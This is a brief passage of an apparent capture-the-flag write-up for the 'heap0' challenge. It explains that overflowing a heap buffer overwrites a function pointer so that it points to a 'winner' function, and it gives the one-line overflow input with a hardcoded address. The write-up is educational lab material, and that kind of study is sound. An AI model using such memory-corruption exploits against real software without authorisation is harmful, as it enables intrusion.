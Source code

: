 All we need to do is overwrite the value of ptr1 to the winner function to solve the challenge. <br>
WE will do this with a simple command: <br>
./heap0 'python -c print("0"*0x50 + "\xb6\x84\x04\x08")' <br>
Once we do that we pass the level. <br>
